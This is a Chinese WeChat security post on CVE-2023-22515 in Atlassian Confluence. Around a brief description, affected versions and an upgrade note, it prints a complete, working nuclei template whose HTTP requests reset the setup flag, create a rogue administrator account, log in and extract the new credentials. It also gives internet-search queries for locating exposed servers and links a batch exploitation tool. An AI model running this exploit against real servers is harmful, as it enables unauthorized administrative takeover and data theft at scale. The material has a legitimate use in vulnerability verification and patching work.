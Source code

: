 #  【漏洞情报 | 新】Confluence 未授权提权访问漏洞

原创 4Zen  [ 划水但不摆烂 ](javascript:void\(0\);)

**划水但不摆烂** ![]()

微信号 gh_0ea5f4b417af

功能介绍 Hi~这里是"划水但不摆烂"，公众号会不定期进行安全相关的资源、技术与经验分享，保持以学徒之心多角度去思考与分享！

____

___发表于_

收录于合集 #漏洞复现 15个

## 免责声明

文章所涉及内容，仅供安全研究与教学之用，由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

## 产品简介

Atlassian Confluence Data Center & Server 是 Atlassian
公司提供的一款企业级团队协作和知识管理软件。它旨在帮助团队协同工作、共享知识、记录文档和协作编辑等。

## 漏洞描述

Confluence 中的 CVE-2023-22515
漏洞存在未授权添加管理员用户。攻击者可构造恶意请求添加管理员，从而登录系统，造成敏感信息泄漏等危害。

## 影响版本

    
    
      
    8.0.0 <= Confluence Data Center and Confluence Server <= 8.0.4  
    8.1.0 <= Confluence Data Center and Confluence Server <= 8.1.4  
    8.2.0 <= Confluence Data Center and Confluence Server <= 8.2.3  
    8.3.0 <= Confluence Data Center and Confluence Server <= 8.3.2  
    8.4.0 <= Confluence Data Center and Confluence Server <= 8.4.2  
    8.5.0 <= Confluence Data Center and Confluence Server <= 8.5.1  
    

## 网络测绘

favicon图标特征

![]()

FOFA网络测绘搜索

    
    
    app="ATLASSIAN-Confluence"  
    

鹰图网络测绘搜索

    
    
    app.name="Confluence"  
    

## 漏洞复现

使用添加的管理员尝试登录![]()

![]()

nuclei批量验证POC模板

    
    
    来源：https://templates.nuclei.sh/public/CVE-2023-22515.yaml  
    
    
    
    id: CVE-2023-22515  
      
    info:  
      name: Atlassian Confluence - Privilege Escalation  
      author: s1r1us,iamnoooob,rootxharsh,pdresearch  
      severity: critical  
      description: |  
        Atlassian Confluence Data Center and Server contains a privilege escalation vulnerability that allows an attacker to create unauthorized Confluence administrator accounts and access Confluence.  
      reference:  
        - https://attackerkb.com/topics/Q5f0ItSzw5/cve-2023-22515/rapid7-analysis  
        - https://confluence.atlassian.com/security/cve-2023-22515-privilege-escalation-vulnerability-in-confluence-data-center-and-server-1295682276.html  
        - https://confluence.atlassian.com/kb/faq-for-cve-2023-22515-1295682188.html  
        - https://jira.atlassian.com/browse/CONFSERVER-92475  
        - https://www.cisa.gov/news-events/alerts/2023/10/05/cisa-adds-three-known-exploited-vulnerabilities-catalog  
      remediation: |  
        Update to the latest version of Confluence  
      classification:  
        cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H  
        cvss-score: 10  
        cve-id: CVE-2023-22515  
        epss-score: 0.00126  
      metadata:  
        fofa-query: app="ATLASSIAN-Confluence"  
        max-request: 6  
        verified: true  
      tags: cve,cve2023,confluence,auth-bypass,kev,intrusive  
      
    variables:  
      username: "{{rand_base(10)}}"  
      password: "{{rand_base(10)}}"  
      email: "{{username}}@{{password}}"  
      
    http:  
      - raw:  
          - |  
            GET /setup/setupadministrator-start.action HTTP/1.1  
            Host: {{Hostname}}  
          - |  
            GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=0&cache{{randstr}} HTTP/1.1  
            Host: {{Hostname}}  
          - |  
            GET /setup/setupadministrator-start.action HTTP/1.1  
            Host: {{Hostname}}  
          - |  
            @timeout:20s  
            POST /setup/setupadministrator.action HTTP/1.1  
            Host: {{Hostname}}  
            Content-Type: application/x-www-form-urlencoded  
            X-Atlassian-Token: no-check  
      
            username={{to_lower(username)}}&fullName=admin&email={{email}}.com&password={{password}}&confirm={{password}}&setup-next-button=Next  
          - |  
            POST /dologin.action HTTP/1.1  
            Host: {{Hostname}}  
            Content-Type: application/x-www-form-urlencoded  
            X-Atlassian-Token: no-check  
      
            os_username={{to_lower(username)}}&os_password={{password}}&login=Log+in&os_destination=%2Findex.action  
          - |  
            GET /welcome.action HTTP/1.1  
            Host: {{Hostname}}  
      
        cookie-reuse: true  
        redirects: true  
        matchers:  
          - type: dsl  
            dsl:  
              - contains(body_1, 'Setup is already complete')  
              - contains(body_3, 'Please configure the system administrator account for this Confluence installation')  
              - contains(location_5, '/index.action')  
              - status_code_5 == 302  
              - contains(body_6, 'Administration')  
            condition: and  
      
        extractors:  
          - type: dsl  
            dsl:  
              - '"USER: "+ username'  
              - '"PASS: "+ password'  
    

![]()

批量漏洞危害验证工具

    
    
    https://github.com/Chocapikk/CVE-2023-22515  
    

![]()

## 修复方案

官方已发布修复建议，建议受影响的用户尽快升级至安全版本。
https://www.atlassian.com/zh/software/confluence/download-archives

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

